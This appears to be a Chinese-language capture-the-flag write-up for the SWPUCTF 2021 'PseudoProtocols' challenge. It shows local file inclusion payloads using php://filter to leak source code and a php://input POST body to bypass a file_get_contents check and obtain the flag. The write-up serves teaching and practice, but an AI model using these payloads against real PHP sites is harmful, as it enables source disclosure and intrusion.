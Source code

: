 ```yaml
---
title: '[SWPUCTF 2021 新生赛]PseudoProtocols'
date: '2025-05-02T17:52:39+08:00'
weight:
draft: false
description: '[SWPUCTF 2021 新生赛]PseudoProtocols'
---
```


**提示：** hint is hear Can you find out the hint.php?

根据提示，利用任意文件包含漏洞和 PHP 伪协议读取 `hint.php` 的文件源码

```text
?wllm=php://filter/read=convert.base64-encode/resource=hint.php
```

![PixPin_2025-04-30_23-19-40](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-04-30_23-19-40.2vey9vgpoh.webp)

对 base64 编码的 `hint.php` 进行解码

```text
PD9waHANCi8vZ28gdG8gL3Rlc3QyMjIyMjIyMjIyMjIyLnBocA0KPz4=
```

![PixPin_2025-04-30_23-21-13](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-04-30_23-21-13.2dowlagtz4.webp)

```php
<?php
//go to /test2222222222222.php
?>
```

根据提示访问 `http://node7.anna.nssctf.cn:24948/test2222222222222.php`

```php
 <?php
ini_set("max_execution_time", "180");
show_source(__FILE__);
include('flag.php');
$a= $_GET["a"];
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){
    echo "success\n";
    echo $flag;
}
?> 
```

当读取文件 `$a` 的内容为 `I want flag` 时会输出 `$flag`，利用 PHP 伪协议绕过

```text
http://node7.anna.nssctf.cn:24948/test2222222222222.php?a=php://input
POST 请求正文：
I want flag
```

> [!ERROR]
> 根据 `test2222222222222.php` 的内容判断 `$flag` 定义在 `flag.php` 中，由于 `index.php` 中存在任意文件包含漏洞，尝试使用 `?wllm=php://filter/read=convert.base64-encode/resource=flag.php` 读取 `flag.php` 的文件源码，输出 `hacker!`，尝试失败。

